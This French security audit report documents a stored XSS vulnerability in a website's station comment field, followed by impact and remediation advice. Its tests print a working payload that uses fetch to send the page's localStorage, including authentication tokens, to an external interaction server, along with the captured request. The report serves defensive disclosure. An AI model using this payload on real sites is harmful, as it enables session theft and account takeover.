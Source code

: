 # 🔒 Rapport d’Audit Cybersécurité — Vulnérabilité XSS

### 🎯 Cible :
Site web — http://10.33.70.223:8000/

### 📅 Date de l’audit :
06/12/2025

### 👨‍💻 Auditeur :
LaDébauche

## 1. 📋 Contexte
Dans le cadre d’un audit de sécurité, nous avons testé toutes les zones de saisie utilisateur du site, notamment le champ commentaire sur les stations. L’objectif était de détecter la présence de vulnérabilités de type Cross-Site Scripting (XSS).

## 2. ⚠️ Description de la vulnérabilité
### Type :
Cross-Site Scripting (XSS) stocké

### Localisation :
Champ commentaire sur les stations

### Détails :
Le champ commentaire n’échappe pas ni ne filtre correctement les entrées. Il est possible d’injecter du code JavaScript qui sera exécuté sur les navigateurs des visiteurs, ce qui constitue un risque majeur.

## 3. 🧪 Tests réalisés
### Test 1 : injection simple
Payload injecté :
```
<script>alert(1)</script>
```
Résultat :
Une alerte s’affiche immédiatement dans le navigateur → preuve que le XSS est exploitable.

### Test 2 : vol de données via XSS
Payload injecté :
```
<script>
fetch("http://d0ypw08z1wg0000e4rzggoxmqyryyyyyb.oast.pro/capture?ls=" + JSON.stringify(localStorage))
</script>
```
Résultat :
Le script vole le contenu complet du localStorage, incluant notamment des tokens d’authentification, et l’envoie vers un serveur externe contrôlé par l’attaquant.

Exemple de requête interceptée :
```bash
GET /capture?ls={"auth_token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...","auth_user":"{\"id\":\"683d6f786e7170f60e39139e\",\"email\":\"oui@oui.com\",\"name\":\"Oui\"}"}
Host: d0ypw08z1wg0000e4rzggoxmqyryyyyyb.oast.pro

```

## 4. 💥 Impact

🚨 Vol des données sensibles (tokens, identifiants…)

🔓 Prise de contrôle possible des comptes utilisateurs

🦠 Propagation de scripts malveillants (keylogger, redirection, etc.)

📉 Perte de confiance des utilisateurs, risques légaux


## 5. 🛠️ Recommandations & Rémédiations

### 5.1 Validation stricte via regex pour le champ commentaire
Empêcher l’injection de caractères spéciaux utilisés dans XSS :
```
[<>{}()"'/;]
```
Ce filtre bloque les caractères < > { } ( ) " ' / ; qui servent à construire des balises ou scripts malveillants.

### 5.2 Assainissement côté serveur
Nettoyer et encoder les entrées avant affichage.

Utiliser des fonctions d’échappement HTML standards.

### 5.3 Mise en place d’une Content Security Policy (CSP)
Limiter les sources de scripts autorisées pour empêcher l’exécution de scripts externes ou injectés.

### 5.4 Validation côté client (optionnelle mais recommandée)
Améliorer l’expérience utilisateur en détectant les erreurs avant l’envoi.

## 6. ✅ Conclusion
La faille XSS détectée est critique et doit être corrigée rapidement pour protéger les utilisateurs et préserver l’intégrité du site. L’implémentation d’un filtrage rigoureux, couplée à une politique CSP, est indispensable.

